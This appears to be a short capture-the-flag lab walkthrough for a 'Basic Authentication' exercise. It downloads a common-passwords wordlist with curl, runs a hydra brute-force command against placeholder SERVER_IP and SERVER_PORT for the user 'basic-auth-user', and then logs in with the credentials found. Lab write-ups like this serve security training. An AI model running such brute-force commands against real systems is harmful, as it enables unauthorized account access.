

# Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* 
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  

**Step 2** - Execute the command:

* 
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><figcaption></figcaption></figure>

    <figure><figcaption></figcaption></figure>

